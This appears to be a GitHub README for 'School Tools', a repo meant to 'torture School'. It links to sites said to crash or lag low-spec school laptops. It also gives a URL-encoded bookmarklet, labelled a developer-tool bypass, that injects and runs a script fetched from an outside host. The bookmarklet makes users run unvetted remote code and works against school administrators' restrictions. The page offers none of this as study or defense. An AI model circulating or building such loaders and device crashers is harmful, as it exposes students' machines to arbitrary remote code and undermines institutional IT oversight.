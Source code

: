 # School Tools

A repo full of tools to torture School!




## Documentation
> School Laptop Laggers (Must be low spec chrome OS & windows systems)
+ [Crasher](http://bongo-hates-python.cf/)
+ [Crasher/lagger](https://crash.drugs4children.org/)

> Developer Tool Bypasses
### Add this to a bookmark vvv
```JS 
javascript:(function()%7Bfunction%20callback()%7Bconsole.log(%22L%2C%20sysadmin%22)%7Dvar%20s%3Ddocument.createElement(%22script%22)%3Bs.src%3D%22https%3A%2F%2Fdrugs4children.org%2FGetSource.js%22%3Bif(s.addEventListener)%7Bs.addEventListener(%22load%22%2Ccallback%2Cfalse)%7Delse%20if(s.readyState)%7Bs.onreadystatechange%3Dcallback%7Ddocument.body.appendChild(s)%3B%7D)()
```

+ [Soon](https://github.com/StiizzyCat/SchoolTools)
